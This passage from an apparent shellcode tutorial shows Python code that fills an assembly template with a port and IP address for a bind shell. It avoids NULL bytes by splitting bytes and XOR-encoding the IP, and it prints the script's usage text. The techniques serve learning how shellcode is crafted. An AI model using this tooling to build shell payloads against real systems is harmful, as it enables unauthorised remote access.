     with open(template_name) as f:
        template_code = f.read()

    tcp_port_hex = (tcp_port).to_bytes(2, "little").hex()

    if '00' in tcp_port_hex:
        if '00' in tcp_port_hex[:2]:
            non_null_byte = tcp_port_hex[2:]
            replace_code = f"mov bl, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
        else:
            non_null_byte = tcp_port_hex[:2]
            replace_code = f"mov bh, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
    else:
        replace_code = f"push WORD 0x{tcp_port_hex}"
    
    template_code = template_code.replace("{{ TEMPLATE_TCP_PORT }}", replace_code, 1)

    ip_address_bytes = [int(x) for x in ip_address.split(".")][::-1]
    
    if 0 in ip_address_bytes:
        print("[!] Found NULL byte in IP address")

        # choose a random byte from the range(1,256), excluding the bytes that make up the IP address
        random_xor_byte = random.choice(list(set(range(1,256)) - set(ip_address_bytes)))

        # encode XORing DWORD and XORed DWORD to hexadecimal
        xor_dword = (bytes([random_xor_byte]) * 4).hex()
        ip_address_xored_bytes = bytes([x ^ random_xor_byte for x in ip_address_bytes]).hex()
        
        replace_code = f"mov ebx, 0x{ip_address_xored_bytes}\n    xor ebx, 0x{xor_dword}\n    push ebx\n    xor ebx, ebx"</code></pre><figcaption>The function also checks for <code>NULL</code> bytes inside the IP address, <code>XOR</code>-ing the values with a random byte in case there are</figcaption></figure><pre><code class="language-py">    else:
        ip_address_hex = "".join([(x).to_bytes(1, "little").hex() for x in ip_address_bytes])
        replace_code = f"push 0x{ip_address_hex}"
    
    template_code = template_code.replace("{{ TEMPLATE_TCP_IP }}", replace_code, 1)
    
    with open(output_file_path, 'w') as f:
        f.write(template_code)</code></pre><p>When you run the script it shows you the required arguments:</p><pre><code class="language-bash">python3 script.py -h

# usage: wrapper.py [-h] -p [1-65535] -ip IP -t TEMPLATE -o OUTPUT

# optional arguments:
#   -h, --help            show this help message and exit
#   -p [1-65535], --port [1-65535]
#                         TCP Port of the Bind Shell
#   -ip IP, --ip IP       IP address of the Bind Shell
#   -t TEMPLATE, --template TEMPLATE
